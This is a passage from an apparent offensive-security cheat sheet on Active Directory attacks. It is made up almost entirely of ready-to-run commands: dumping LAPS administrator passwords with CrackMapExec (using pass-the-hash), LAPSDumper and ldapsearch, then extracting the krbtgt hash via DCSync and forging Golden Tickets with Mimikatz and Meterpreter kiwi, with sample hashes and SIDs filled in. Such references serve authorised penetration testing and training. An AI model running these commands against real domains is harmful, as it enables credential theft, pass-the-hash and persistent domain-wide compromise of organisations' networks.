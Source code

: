   * [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec):
       ```bash
       crackmapexec smb 10.10.10.10 -u 'user' -H '8846f7eaee8fb117ad06bdd830b7586c' -M laps
       ```

   * [LAPSDumper](https://github.com/n00py/LAPSDumper) 
       ```bash
       python laps.py -u 'user' -p 'password' -d 'domain.local'
       python laps.py -u 'user' -p 'e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c' -d 'domain.local' -l 'dc01.domain.local'
       ```
   
   * ldapsearch
      ```bash
      ldapsearch -x -h  -D "@" -w  -b "dc=<>,dc=<>,dc=<>" "(&(objectCategory=computer)(ms-MCS-AdmPwd=*))" ms-MCS-AdmPwd`
      ```
     
### Pass-the-Ticket Golden Tickets

Forging a TGT require the `krbtgt` NTLM hash

> The way to forge a Golden Ticket is very similar to the Silver Ticket one. The main differences are that, in this case, no service SPN must be specified to ticketer.py, and the krbtgt ntlm hash must be used.

#### Using Mimikatz

```powershell
# Get info - Mimikatz
lsadump::lsa /inject /name:krbtgt
lsadump::lsa /patch
lsadump::trust /patch
lsadump::dcsync /user:krbtgt

# Forge a Golden ticket - Mimikatz
kerberos::purge
kerberos::golden /user:evil /domain:pentestlab.local /sid:S-1-5-21-3737340914-2019594255-2413685307 /krbtgt:d125e4f69c851529045ec95ca80fa37e /ticket:evil.tck /ptt
kerberos::tgt
```

#### Using Meterpreter 

```powershell
# Get info - Meterpreter(kiwi)
dcsync_ntlm krbtgt
dcsync krbtgt

# Forge a Golden ticket - Meterpreter
load kiwi
golden_ticket_create -d <domainname> -k <nthashof krbtgt> -s <SID without le RID> -u <user_for_the_ticket> -t <location_to_store_tck>
golden_ticket_create -d pentestlab.local -u pentestlabuser -s S-1-5-21-3737340914-2019594255-2413685307 -k d125e4f69c851529045ec95ca80fa37e -t /root/Downloads/pentestlabuser.tck
kerberos_ticket_purge
kerberos_ticket_use /root/Downloads/pentestlabuser.tck
kerberos_ticket_list
```
